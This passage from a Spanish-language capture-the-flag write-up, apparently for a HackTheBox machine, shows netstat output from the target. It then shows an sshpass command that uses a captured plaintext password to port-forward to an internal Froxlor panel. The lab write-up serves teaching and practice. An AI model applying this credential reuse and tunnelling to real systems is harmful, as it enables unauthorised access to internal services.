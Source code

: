 ```console
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35171         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:45789         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                  
```


Vamos a hacer port-forwarding a este puerto con SSH ya que tenemos credenciales.
```console
$ sshpass -p 'insaneclownposse' ssh -L 8083:127.0.0.1:8080 michael@sightless.htb
```

Ahora nuestro puerto local 8083 es el puerto 8080 de la máquina víctima.

Encontramos una instancia de `Froxlor`
![Write-up Image](images/Screenshot_6.png)

